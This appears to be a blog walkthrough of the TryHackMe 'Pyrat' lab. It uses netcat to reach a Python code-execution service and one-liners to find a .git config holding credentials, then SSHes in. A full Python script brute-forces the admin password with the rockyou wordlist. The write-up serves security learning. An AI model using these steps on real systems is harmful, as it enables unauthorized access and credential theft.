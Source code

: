 ```yaml
---
layout: post
title: "🎮 Workthrough  → THM Pytrat"
permalink: /blog/workthrough_thm_pyrat/
---
```


# 🎮 Workthrough → TryHackMe Pyrat

### Description

Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

# Nmap port scan

Screenshot:

![image](/assets/images/thm/pyrat/1.png)

Port ssh (22) and Hppt (8000) is open.
Screenshot:

# Check for the http port information.

![image](/assets/images/thm/pyrat/2.png)

Basic connection ok. lets connect to port 8000 using netcat. Try to run hello world python syntax as description says there are potential python code execution vulnerability.
Screenshot:
![image](/assets/images/thm/pyrat/3.png)

We can execute python codes here.

Next I will use python code execution payload further. Try to check for incomming mails.
Screenshot:
![image](/assets/images/thm/pyrat/4.png)

May be there is something for me in `think`. Next try to read this mail.

Screenshot:
![image](/assets/images/thm/pyrat/5.png)

search for git folders.

```python
import os; print([r for r, d, ds in os.walk('/') if ".git" in d])
```

Screenshot:
![image](/assets/images/thm/pyrat/6.png)

Check git config.

![image](/assets/images/thm/pyrat/7.png)

We got username and password here. Let's try to ssh using this credential.

We have successfully loged in and in the home directory there is an `users.txt` file contains our first flag.

### Root

![image](/assets/images/thm/pyrat/8.png)

Python script to find admin password.

```python=
import socket


TARGET_IP = '10.10.118.253'
TARGET_PORT = 8000
WORDLIST = '/usr/share/wordlists/rockyou.txt'


with open(WORDLIST, 'r', encoding="latin-1") as f:
    for password in f:
        password = password.strip()
        try:
            s = socket.socket()
            s.settimeout(3)
            s.connect((TARGET_IP, TARGET_PORT))

            # Send admin
            s.sendall(b"admin\n")
            data = s.recv(4096).decode()

            # read password prompt
            if "Password:" in data:
                s.sendall((password + "\n").encode())
                data = s.recv(4096).decode()
                print(f"[TRY] Password: {password} | Response: {data.strip()}")

                if "Password:" not in data:
                    print(f"\n[SUCCESS] Password found: {password}")
                    break
            else:
                print("Error: unexpected response after sending username")

            s.close()
        except Exception as e:
            print("Error: %s " %e)

```

Now successfully got the admin password.
![image](/assets/images/thm/pyrat/9.png)

## Useful commands.

1. `nmap -sS 10.10.133.11`
2. `import os; print([r for r, d, ds in os.walk('/') if ".git" in d])`
3. `print(open("/opt/dev/.git/config").read())`
4. `ssh think@10.10.118.253`
5. `nc 10.10.118.253 8000`
